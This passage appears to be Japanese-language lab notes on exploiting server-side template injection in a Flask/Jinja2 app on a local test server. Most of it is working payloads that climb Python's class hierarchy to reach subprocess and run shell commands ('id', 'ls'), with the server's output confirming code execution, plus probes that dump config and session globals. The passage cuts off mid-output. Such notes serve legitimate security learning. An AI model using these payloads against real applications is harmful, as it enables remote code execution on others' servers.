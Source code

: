 ```txt
```
- `"".__class__.__mro__[1].__subclasses__()[59].__repr__.__globals__.items()[13][1]["__import__"]("subprocess").check_output("id")`   
どの経由でOSコマンドを実行してるのかよくわからんけど59番目のオブジェクトが欲しいやつがじゃないからうまく行ってない。環境依存。tplmapの方ではうまく行ってるが…   
```txt
Internal Server Error
```
- `{{''.__class__.__mro__[1].__subclasses__()[186]}}`   
`<class 'warnings.catch_warnings'>`はRCEに使えるらしい！   
```txt
Hello <class 'warnings.catch_warnings'>! 
```
- `{{''.__class__.__mro__[1].__subclasses__()[186].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}`   
```txt
Hello b'requirements.sh\nrun.sh\nserver.py\n'! 
```
- `{{[].__class__.__base__}}`   
```txt
Hello <class 'object'>! 
```
- `{{[].__class__.__base__.__subclasses__()}}`   
```txt
"".__class__.__mro__[1].__subclasses__()の長い出力と同じ…
```
#### self
- `{{self}}`   
```txt
Hello <TemplateReference None>! 
```
- `{{self.__dict__}}`   
```txt
Hello {'_TemplateReference__context': <Context {'range': <class 'range'>, 'dict': <class 'dict'>, 'lipsum': <function generate_lorem_ipsum at 0x7fc6734f7d30>, 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'namespace': <class 'jinja2.utils.Namespace'>, 'url_for': <function url_for at 0x7fc672b945e0>, 'get_flashed_messages': <function get_flashed_messages at 0x7fc672b94790>, 'config': <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>, 'request': <Request 'http://192.168.99.100:5000/' [POST]>, 'session': <NullSession {}>, 'g': <flask.g of 'server'>} of None>}! 
```
#### session
- `{{session}}`   
```txt
Hello <NullSession {}>! 
```
- `{{session.__class__.__base__.get.__globals__}}`   
`{{config.__class__.__init__.__globals__}}`,`{{url_for.__globals__}}` みたいな出力が得られている。   
```txt
Hello {'__name__': 'flask.sessions', '__doc__': '\n flask.sessions\n ~~~~~~~~~~~~~~\n\n 
Implements cookie based sessions based on itsdangerous.\n\n :copyright: 2010 Pallets\n 
:license: BSD-3-Clause\n', '__package__': 'flask', '__loader__': 
<_frozen_importlib_external.SourceFileLoader object at 0x7fc672b77790>, '__spec__': 
ModuleSpec(name='flask.sessions', loader=<_frozen_importlib_external.SourceFileLoader 
object at 0x7fc672b77790>, origin='/usr/local/lib/python3.9/site-
packages/flask/sessions.py'), '__file__': '/usr/local/lib/python3.9/site-
packages/flask/sessions.py', '__cached__': '/usr/local/lib/python3.9/site-
packages/flask/__pycache__/sessions.cpython-39.pyc', '__builtins__': {'__name__': 
'builtins', '__doc__': "Built-in functions, exceptions, and other 
```